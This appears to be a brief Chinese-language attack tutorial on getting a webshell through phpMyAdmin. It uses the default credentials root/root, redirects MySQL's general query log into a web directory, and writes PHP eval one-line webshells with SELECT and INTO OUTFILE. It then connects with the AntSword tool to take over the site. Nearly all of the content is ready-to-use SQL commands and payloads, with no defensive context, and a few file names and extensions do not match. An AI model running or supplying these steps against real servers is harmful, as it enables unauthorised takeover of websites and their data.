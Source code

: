 ```yaml
---
title:  phpmyadmin
---
```


# SQL日志包含

## 1、在后台登陆管理员，运行sql查询，输入

> 弱密码 root root

![image-20220103212142075](https://tobyjpghub-1258737888.cos.ap-shanghai.myqcloud.com/202201032121150.png)

```
show VARIABLES;
Set global general_log='on';#开启日志

Set global general_log_file='绝对路径';#插入php文件。
/var/lib/mysql/

show variables like '%general%'#查看系统变量值

Select'<?php eval($_POST['cmd']);?>’;#插入一句话木马

Set global general_log_file='绝对路径';#文件路径
```

```
Set global general_log='on';
Set global general_log_file='/var/www/html/succezbi/meta/v_21/CommonData/public/scripts/1.jsp';
show variables like 'general_log_file';




Select "<?php eval($_POST['pass']);?>";




select '<?php @eval($_POST(cmd))?>;'  into outfile '/var/www/html/succezbi/meta/v_21/CommonData/public/scripts/1.jsp'
```





![image-20220103212919607](https://tobyjpghub-1258737888.cos.ap-shanghai.myqcloud.com/202201032129697.png) 

## 2、利用蚁剑连接shell，输入网址/777.php，输入密码cmd，获取网站权限。

 

